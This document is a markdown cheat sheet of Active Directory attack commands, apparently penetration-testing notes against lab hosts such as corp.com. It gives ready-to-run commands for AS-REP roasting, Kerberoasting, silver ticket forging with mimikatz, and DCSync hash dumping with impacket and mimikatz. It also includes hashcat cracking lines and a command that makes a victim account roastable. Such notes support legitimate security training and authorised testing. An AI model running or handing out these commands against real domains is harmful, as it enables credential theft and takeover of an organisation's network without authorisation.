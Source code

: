 ## AS-REP Roasting
**Note:** Only works if Kerberos Pre-authentication is disabled (which it isn't by default). Does not require any Domain credentials.
###### Check for Kerberos Preauthentication (PowerView)
`Get-DomainUser -PreauthNotRequired`
###### Check for Kerberos Preauthentication (Impacket)
`impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete`
###### Check for Kerberos Preauthenticaion (Impacket) All Users
`impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/ -no-pass -request`
###### WriteProperty
If we only have WriteProperty over an account instead of GenericAll, we can make it become AS-REP Roastable
`Set-ADUser -Identity "victimuser" -UserAccountControl 4194304`
###### Attack from Kali
``impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete``
###### Attack from Windows
`.\Rubeus.exe asreproast /nowrap`
**Note:** Hashes are automatically in Hashcat format
###### Crack Hashes
`sudo hashcat -m 18200 hashes.asreproast rockyou.txt -r best64.rule --force`

---
## Kerberoasting
**Note:** Requires valid Domain credentials
###### Set SPN for User if we control User Object
`setspn -a <SPN> <UserAccount>`
`setspn -a http/myservice jen`
###### Delete SPN
`setspn -d service/name hostname`
###### Attack from Kali
`sudo impacket-GetUserSPNs -request -dc-ip 192.168.142.70 corp.com/pete`
**Note:** If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so.
`sudo ntpdate <domain-controller-ip>`
`sudo rdate -n <domain-controller-ip>`
###### Attack from Windows
`.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
###### Crack Hashes
`sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r best64.txt --force`

---
## Silver Ticket Attack
Authenticate against services.
###### Required Info:
- SPN password hash (NTLM hash of the service account)
- Domain SID (Security Identifier of the domain)
- Target SPN (The service you want to forge a ticket for, e.g., `CIFS`, `HTTP`, `MSSQLSvc`)
###### Obtain hash:
`.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords`
**Note:** This generates a lot of output. Identify the password hash of the target service account.
###### Obtain SID
`whoami /user`
###### Obtain SPN (PowerView)
``Get-NetUser -SPN | select samaccountname,serviceprincipalname``
Depends on the service. For HTTP it might be something like `HTTP/web04.corp.com:80`
###### Forge Ticket
`kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:peteadmin`
**Note:** Make sure to remove the RID (last 4 digits) from the SID
`rc4:` is the password hash of the service account
###### Access the Service
`dir \\Files04.shellcorp.com\C$`
**Note:** This will give you privileged access on the device in the context of the service. For MSSQL, this means you can execute OS Commands via XP_CMDSHELL. For HTTP, it depends on the function of the web application.
If successful, from the perspective of the ISS application, the current user will be both built-in local admin and a member of privileged groups. This can be seen in the output under `User Id` and `Groups Id`.


---
## Domain Controller Synchronisation
Dump hashes from the DC.
###### Requirements
- Local Admin (for mimikatz)
- User needs to have the following rights:
	- Replicating Directory Changes
	- Replicating Directory Changes All
	- Replicating Directory Changes in Filtered Set
###### Attack from Kali
`impacket-secretsdump -just-dc-user Administrator corp.com/<username>:"<password>"@<domain-controller-ip>`
###### Extract All Hashes
`impacket-secretsdump -just-dc corp.com/<username>:<password>@<domain-controller-ip>`
###### Attack from Windows
`.\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:corp\Administrator"`
This returns an NTLM hash for cracking.
###### Crack
`hashcat -m 1000 hashes.dcsync rockyou.txt -r best64.rule --force`